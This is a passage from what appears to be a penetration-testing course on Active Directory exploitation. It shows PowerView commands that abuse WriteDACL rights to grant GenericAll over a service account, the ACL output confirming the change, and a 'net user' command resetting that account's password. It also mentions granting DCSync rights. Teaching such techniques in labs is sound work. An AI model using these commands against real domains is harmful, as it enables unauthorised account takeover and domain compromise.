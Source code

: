 > Listing 12 - Enumerating WriteDACL access rights

The output in Listing 12 reveals that our current user has WriteDACL access rights to the _TestService2_ user, which allows us to add new access rights like GenericAll.

We can use the Add-DomainObjectAcl PowerView method to apply additional access rights such as GenericAll, GenericWrite, or even _DCSync_[1](https://portal.offsec.com/courses/pen-300-9502/learning/active-directory-exploitation-14684/active-directory-exploitation-14915#fn-local_id_633-1) if the targeted object is the domain object.

For example, let's add the GenericAll access right to the _TestService2_ object.

```
PS C:\tools> Add-DomainObjectAcl -TargetIdentity testservice2 -PrincipalIdentity offsec -Rights All
```

> Listing 13 - Adding access rights with Add-DomainObjectAcl

Although the method is called _Add-DomainObjectAcl_, it will actually modify the current ACE if an entry already exists.

After attempting to modify the DACL, we'll dump it again to verify that GenericAll was applied correctly.

```
PS C:\tools> Get-ObjectAcl -Identity testservice2 -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}


AceType               : AccessAllowed
ObjectDN              : CN=TestService2,OU=prodUsers,DC=prod,DC=corp1,DC=com
ActiveDirectoryRights : GenericAll
OpaqueLength          : 0
ObjectSID             : S-1-5-21-3776646582-2086779273-4091361643-1608
InheritanceFlags      : None
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-3776646582-2086779273-4091361643-1111
AccessMask            : 983551
AuditFlags            : None
AceFlags              : None
AceQualifier          : AccessAllowed
Identity              : PROD\offsec
```

> Listing 14 - Verifying the modified access rights

The highlighted section of Listing 14 reveals that we now have GenericAll access rights to _TestService2_. Let's change its password.

```
PS C:\tools> net user testservice2 h4x /domain
The request will be processed at a domain controller for domain prod.corp1.com.

The command completed successfully.
```
